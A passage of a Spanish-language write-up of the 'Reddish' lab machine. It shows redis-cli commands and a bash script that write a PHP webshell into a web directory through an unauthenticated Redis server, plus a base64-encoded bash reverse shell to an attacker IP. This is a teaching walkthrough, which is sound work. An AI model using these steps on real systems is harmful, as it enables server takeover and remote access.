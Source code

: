 ### Entonces vamos a tratar de subir nuestra webshell a este directorio asumiendo que está en /var/www/html/8924d0549008565c554f8128cd11fda4 con los comandos que nos dice el articulo

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #redis-cli -h 127.0.0.1 flushall
OK
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #cat cmd.php | redis-cli -h 127.0.0.1 -x set crackit 
OK
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
OK
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
OK
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #redis-cli -h 127.0.0.1 save

OK
```

### Probamos que nuestro cmd.php este subido y vemos que este nos responde L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljc3LzQ0MyAwPiYxL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljc3LzQ0MyAwPiYx

![12.png](/assets/images/2022-05-10-Reddish/12.png)

### Pero vemos que nos borra el archivo muy rápido, así que vamos crearnos un script en bash para que nos suba el archivo fácilmente

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #cat uploadredis.sh 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: uploadredis.sh
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ redis-cli -h 127.0.0.1 flushall
   4   │ cat cmd.php | redis-cli -h 127.0.0.1 -x set crackit
   5   │ redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
   6   │ redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
   7   │ redis-cli -h 127.0.0.1 save
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```